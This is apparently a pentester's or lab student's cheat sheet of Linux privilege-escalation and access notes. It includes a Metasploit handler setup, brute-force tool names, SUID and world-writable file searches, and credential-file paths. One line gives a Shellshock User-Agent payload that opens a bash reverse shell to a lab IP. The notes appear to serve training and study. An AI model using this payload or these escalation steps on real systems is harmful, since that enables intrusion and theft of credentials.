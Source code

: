 use exploit/multi/handler 
set LHOST IP
set LPORT IP

sessions -i 3 -name NAME

---------------
BRUTE-FORCE:
---------------

hydra, medusa, patator, metasploit, burpsuite 

----------------
LINUX PRIVEX
----------------

SHELLSHOCK: User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.172/4444 0>&1

password files and its backups or default: /etc/passwd, /etc/shadow
------------------------------------------

old or vulnerable kernel
-------------------------

crontab 
--------

file permissions: 
---------------------

find / -user root -perm -4000 -print 2>/dev/null (SUID binaries) 

find / -perm -0003 -user root 2>/dev/null | egrep -i '(\.py$|\.pl$|\\.exe$) -> owner root, world writeable files

find / -perm -o+w: find world writeable anything  

find suid files: find / -perm -4000 2> /dev/null;  chmod u+s executable

find guid files: find . -perm -2000 2> /dev/null; chmod g+s executable

find sticky files: find / -perm -1000 2> /dev/null

file system - soft, hard links 
---------------------------------

sudo vulnerabilities: sudo -l 
--------------------------------

PATH vulnerabilities 

env vulnerabilities

race conditions 

TIP: https://help.offensive-security.com/hc/en-us/articles/360046869951
------
  
